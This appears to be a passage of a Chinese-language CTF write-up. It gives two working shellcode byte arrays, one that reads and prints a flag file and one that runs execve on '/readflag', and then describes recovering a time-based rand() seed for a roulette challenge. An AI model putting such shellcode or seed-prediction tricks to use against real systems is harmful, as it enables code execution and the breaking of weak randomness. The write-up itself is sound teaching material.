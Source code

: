 把搜索结果里的 shellcode 的表示路径的 ASCII 码替换即可：

```c
unsigned char shellcode[] =
    "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66"
    "\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f"
    "\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0"
    "\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x66"
    "\x6c\x61\x67\x31\x00\x00\x00\x00\x00\x41";
```

第二问搜索 execve shellcode，同理替换表示路径的部分即可：

```c
unsigned char shellcode[] = "\x31\xc0\x50\x48\x8b\x14\x24\xeb\x10\x54"
                            "\x78\x06\x5e\x5f\xb0\x3b\x0f\x05\x59\x5b"
                            "\x40\xb0\x0b\xcd\x80\xe8\xeb\xff\xff\xff"
                            "/readflag";
```

按照题目说明编译，提交就可以过了

## 蒙特卡罗轮盘赌

显然切入点在 `rand()` 函数，谷歌搜索 C rand hack ctf（别问这个为什么要搜，问就是年轻人的第一场 CTF

发现当 `srand` 的参数和时间有关时，可以考虑本地枚举附近的时间，找到可能的随机种子

（刚好这题也允许我们失败两次，容错还是比较大的）

```c
srand((unsigned)time() + clock())
```

我们编个测试程序看看这两个值的范围

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

double rand01() { return (double)rand() / RAND_MAX; }

int main() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    long int _time = time(0);
    long int _clock = clock();

    printf("%ld %ld", _time, _clock);

    return 0;
}
```

